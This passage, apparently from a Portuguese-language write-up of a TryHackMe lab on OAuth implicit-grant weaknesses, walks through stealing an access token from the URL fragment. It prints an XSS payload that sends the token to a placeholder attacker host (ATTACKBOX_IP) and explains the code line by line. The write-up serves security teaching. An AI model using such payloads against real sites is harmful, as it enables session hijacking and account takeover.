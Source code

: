 ### Prática

O usuário acessa `http://factbook.thm:8080`, está página permite que o usuário sincronize todos os seus status de `CoffeShoApp`. Clicando no botão "**Sync Statuses from CoffeeShopApp**" o processo é iniciado, o usuário é redirecionado para `CoffeShopApp`onde irá se autenticar com as credenciais: `victim:victim123`.
Após isso, é feito a concessão implícita o usuário é redirecionado de volta para `factbook`, o token de acesso se encontra na URL.

![get_callback](/assets/img/posts/2025/02/auth/get_callback.png)

A página onde o usuário realiza a postagem de status é vulnerável a XSS.
Na perspectiva do atacante, essa vulnerabilidade é explorada,  injetando o código malicioso, exemplo fornecido em aula.

```javascript
<script>

	var hash = window.location.hash.substr(1);
	var result = hash.split('&').reduce(function (res, item) {
		var parts = item.split('=');
		res[parts[0]] = parts[1]; 
		return res; 
		}, 
	{}); 
	
	var accessToken = result.access_token; 
	var img = new Image(); 
	img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken; 
	
</script>
```

- `window.location.hash` obtém a parte do URL após o `#`.
    
- `substr(1)` remove o `#`, deixando apenas o fragmento relevante.
    
- `hash.split('&')` separa o fragmento em pares de chave-valor (ex., `["access_token=12345", "token_type=Bearer"]`).
    
- `reduce` cria um objeto (`res`) onde cada chave-valor do fragmento é separado e armazenado.
    